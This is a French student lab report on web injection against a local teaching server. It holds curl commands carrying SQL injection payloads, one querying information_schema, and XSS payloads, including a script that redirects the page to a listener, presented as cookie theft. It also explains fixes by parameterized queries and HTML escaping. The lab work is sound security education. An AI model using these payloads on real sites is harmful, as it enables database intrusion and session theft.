

# Rendu "Injection"

## Binome

- Rayane Hamani - rayane.hamani.etu@univ-lille.fr
- Florian Dendoncker - florian.dendoncker.etu@univ-lille.fr

## Question 1

- **Quel est ce mécanisme ?**  
    Il s'agit de la fonction `validate` qui va être appelée `onsubmit` et va utiliser une regex pour vérifier que la chaîne entrée possède bien uniquement des chiffres et des lettres.

- **Est-il efficace? Pourquoi ?**  
    Non pour deux raisons.

    La première, car il est possible de `désactiver Javascript dans le navigateur`. En faisant ça et en rechargeant la page, il devient possible d'`injecter des chaînes non-conformes initialement`, possédants donc bien plus que des chiffres et des lettres.

    La seconde, car il est possible d'`inspecter les éléments de la page` dans le navigateur et de `supprimer la vérification onsubmit` ce qui aura aussi pour effet de donner la possibilité d'`injecter des chaînes non-conformes initialement`.

## Question 2

- **Votre commande curl**  
    ```sh
    curl 'http://localhost:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8080' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'chaine=chaine+avec+des+espaces&submit=OK'
    ```

## Question 3

- **Commande curl pour insérer ce que l'on veut dans le champ `who`**  
    ```sh
    curl 'http://localhost:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8080' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw "chaine=chaine+avec+des+espaces+2','rayane') -- &submit=OK"
    ```

- **Expliquez comment obtenir des informations sur une autre table**  
    ```sh
    curl 'http://localhost:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8080' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw "chaine=chaine+avec+des+espaces+3',(SELECT DESCRIPTION FROM information_schema.CHARACTER_SETS WHERE CHARACTER_SET_NAME='utf8')) -- &submit=OK"
    ```
    En prenant le contexte de cette question, `les champs attendus sont des varchar`. En ne renseignant pas le type attendu, `SQL va traiter ces champs comme des commandes`. Ces commandes peuvent alors `atteindre et retourner des informations sur les autres tables` de la base de données.

## Question 4

- **Rendre un fichier serveur_correct.py avec la correction de la faille de sécurité. Expliquez comment vous avez corrigé la faille.**  
    Plutôt que d'attendre les informations venant du navigateur, `on paramètre la requête en donnant les types attendus`. Cela a l'avantage de faire en sorte que `les informations envoyées soient toujours traitées de la même façon` par la base de données. Le traitement se fera donc côté serveur.  
    Dans notre cas, notre base de données attend deux varchar : `txt` et `who`. Le premier est `un texte quelconque` tandis que le second représente `l'adresse IP de l'envoyeur`. On peut donc corriger la faille en créant `un tuple de chaînes de caractères` dont le premier est `l'entrée strictement typé` dans le navigateur et le second est `l'adresse IP récupérée grâce au framework cherrypi`.

## Question 5

- **Commande curl pour afficher une fenetre de dialog.**  
    ```sh
    curl 'http://localhost:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8080' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'chaine=<script>alert("Hello!")</script>&submit=OK'
    ```

- **Commande curl pour lire les cookies**  
    ```sh
    curl 'http://localhost:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8080' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'chaine=<script>document.location="http://127.0.0.1:55555"</script>&submit=OK'
    ```

    

## Question 6

- **Rendre un fichier serveur_xss.py avec la correction de la faille. Expliquez la demarche que vous avez suivi.**  
    En Python comme en PHP, il existe des fonctions permettants de `remplacer les caractères de balisage` par des chaînes sécurisées. En PHP il y a `HtmlSpecialChars` et en Python il y a `html.escape`. Nous avons donc utilisé la fonction html.escape sur l'entrée afin d'`échapper l'injection de potentiel code Javascript`.
